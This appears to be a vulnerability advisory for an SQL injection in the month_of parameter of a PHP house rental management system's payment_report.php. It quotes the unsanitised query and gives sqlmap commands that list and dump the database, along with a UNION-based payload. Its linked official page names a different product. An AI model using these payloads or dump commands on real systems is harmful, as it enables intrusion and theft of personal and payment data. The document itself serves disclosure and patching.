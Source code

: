 # SQL Injection Vulnerability at Sourcecodester House Rental Management System

Official Website: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

Version: v1.0

route:/payment_report.php?month_of=<payload>

Related Code file: payment_report.php

Injection parameter: month_of

## Vulnerability Analysis
Vulnerable code:
```php
$payments = $conn->query("SELECT p.*, concat(t.lastname,', ',t.firstname,' ',t.middlename) as name, h.house_no FROM payments p INNER JOIN tenants t ON t.id = p.tenant_id INNER JOIN houses h ON h.id = t.house_id WHERE date_format(p.date_created,'%Y-%m') = '$month_of' ORDER BY unix_timestamp(date_created) ASC");
```

The part of this code that is vulnerable to SQL injection is the following SQL query, where the $month_of parameter is directly included in the SQL statement without any sanitization or use of prepared statements.
Because the $month_of parameter is coming directly from user input ($_GET['month_of']). An attacker could manipulate this input to include malicious SQL code.

## Vulnerability Verification and Exploit
We can easily recreate this vulnerability using sqlmap as such:

Below is for basic sql injection testing:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' –batch`

![image](https://github.com/jadu101/CVE/assets/76433661/90efd07f-9db7-479e-a186-18d9a4316666)

Below is the payload that can be used to reproduce withouut sqlmap

```
month_of=2024-06' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b6271,0x7150726e686a6f7a51496176746f794e58766344546e746a77414663655079734a697847496f4557,0x716b7a6271),NULL-- -
```

Below is the command used to dump database list:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/042e913b-ac47-4ecd-a41f-c40adc4dbfdb)

Below is the command used to dump data inside house_rental_latest database:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs -D house_rental_latest --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/464aa85e-990d-4247-9573-c0fb833b3208)









